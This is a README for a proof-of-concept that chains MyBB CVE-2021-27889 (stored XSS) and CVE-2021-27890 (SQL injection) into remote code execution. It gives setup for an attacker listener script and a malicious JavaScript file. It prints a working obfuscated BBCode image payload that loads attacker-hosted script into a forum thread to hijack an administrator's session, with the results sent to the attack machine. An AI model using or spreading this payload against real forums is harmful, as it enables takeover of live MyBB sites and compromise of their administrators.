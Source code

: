 # Mybb-XSS_SQL_RCE-POC(CVE-2021-27890 & CVE-2021-27889)

Mybb associate CVE-2021-27890 &amp; CVE-2021-27889 to RCE poc
</br>

**Before Use:**

There are two files here:  1.js and attack_listen.py

You should modify these two file:

**1.js:**

源码[1.js](resource/Mybb-XSS_SQL_RCE-POC(CVE-2021-27890&CVE-2021-27889)/media/1.js)

modify the mybb forum url and attack url:

```js
var bashurl = 'http://192.168.92.164/mybb/mybb-mybb_1825' #mybb forum url
var attack_url = 'http://192.168.92.165:8080/attack_success' #change the attack machine ip.should keep the same with the attack_listen.py
```
</br>

**attack_listen.py**

源码[attack_listen.py](resource/Mybb-XSS_SQL_RCE-POC(CVE-2021-27890&CVE-2021-27889)/media/attack_listen.py)

modify the attack host and attack port:

```python
attack_host = '192.168.92.165'
attack_port = 8080
```

</br>

**Usage:**

CVE-2021-27889 is xss. You should inject the following payload in "**New Post Thread**" or "**Reply**" or "**Private Messages**" before do the attack.In this demo,I send the payload to "New Post Thread"

*notice that the **192.168.92.165** is the evil server ip,You should change it.*

```html
[img]http://evil.com/xx(http://evil.com/onerror=xs1=String.fromCharCode(47);xa1=document.createElement(/script/.source);xa1.src=xs1+xs1+/192.168.92.165/.source+xs1+/1.js/.source;document.getElementById(/header/.source).append(xa1);//[/img]
```

![](resource/Mybb-XSS_SQL_RCE-POC(CVE-2021-27890&CVE-2021-27889)/media/1.png)

</br>

Now Our evil js **1.js** is injected successful.Then we should wait an Admin browsed this Post with loggined admin page cookie.

*Notice that the Admin user have no necessary loggin the forum page.*

</br>

In our waiting time,We should run the "attack_listen.py" in our attack machine, To identify if the Admin user be attacked.

```shell
python3 attack_listen.py
```

</br>

When the Admin user browsed the evil post,the evil js will do the attack:

![](resource/Mybb-XSS_SQL_RCE-POC(CVE-2021-27890&CVE-2021-27889)/media/2.png)

</br>

We can receive the information at our attack machine:

![](resource/Mybb-XSS_SQL_RCE-POC(CVE-2021-27890&CVE-2021-27889)/media/3.png)



![](resource/Mybb-XSS_SQL_RCE-POC(CVE-2021-27890&CVE-2021-27889)/media/4.png)
